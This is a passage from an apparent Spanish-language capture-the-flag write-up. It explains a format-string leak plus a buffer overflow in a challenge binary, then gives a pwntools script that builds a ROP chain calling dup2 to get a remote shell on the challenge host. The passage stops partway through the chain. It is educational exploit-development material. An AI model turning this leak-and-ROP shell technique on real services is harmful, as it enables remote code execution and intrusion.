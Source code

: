 Existe también un buffer overflow en el metodo POST (se puede observar reversando el binario), con lo que con los leaks + overflow podemos escribir un exploit, dado que no tenemos leak de libc, la idea del exploit es enviar el string de "/bin/sh\0" (null byte terminated) en el payload y usar el leak de stack para calcular la dirección relativa al string, luego de eso como el binario está corriendo en un docket, no es posible simplemente "llamar a /bin/sh" lo que debemos hacer es suplicar el stdin y stdout, y enviarlo por el socket, esto se puede hacer usando DUP2(). El exploit es el siguiente.


```python
#!/usr/bin/python3
from pwn import *
import requests
gs = '''
continue
'''
elf = context.binary = ELF('./a.out')
context.terminal = ['tmux', 'splitw', '-hp', '70']
def start():
    if args.GDB:
        return gdb.debug('./a.out', gdbscript=gs)
    if args.REMOTE:
        return remote('167.99.6.79', 5555)
    else:
        return process('./a.out')
r = start()
#========= exploit here ===================
payload = b"DEBUG %p-%p-%p"
r.sendline(payload)
leaks = r.recv(0x2a).split(b"-")
leak = int(leaks[2],16)
base = leak - 0x2080
stack_leak = int(leaks[0], 16)
r.close()
log.info(f"leak = {hex(leak)}")
log.info(f"base address = {hex(base)}")
log.info(f"Stack leak = {hex(stack_leak)}")
poprdi = base+0x00000000000019a3 #pop rdi; ret; 
poprsi = base+0x00000000000019a1 #pop rsi; pop r15; ret;
poprdx = base+0x00000000000017ea #pop rdx; pop r12; xor rdx, qword ptr [2]; ret; 
movrax = base+0x00000000000017f4 #
syscall = base+0x00000000000017f1 #syscall
r = remote('167.99.6.79', 5555)
payload = b"/bin/sh\0"
payload += b"A"*(0x18-len(payload))
payload += p64(poprdi)
payload += p64(33)
payload += p64(movrax)
payload += p64(poprdi)
payload += p64(4)
payload += p64(poprsi)
payload += p64(0)
payload += p64(0)
payload += p64(syscall)
payload += p64(poprdi)
payload += p64(33)
payload += p64(movrax)
payload += p64(poprdi)
payload += p64(4)
payload += p64(poprsi)
payload += p64(1)
payload += p64(0)
payload += p64(syscall)
payload += p64(poprdi)
payload += p64(33)
```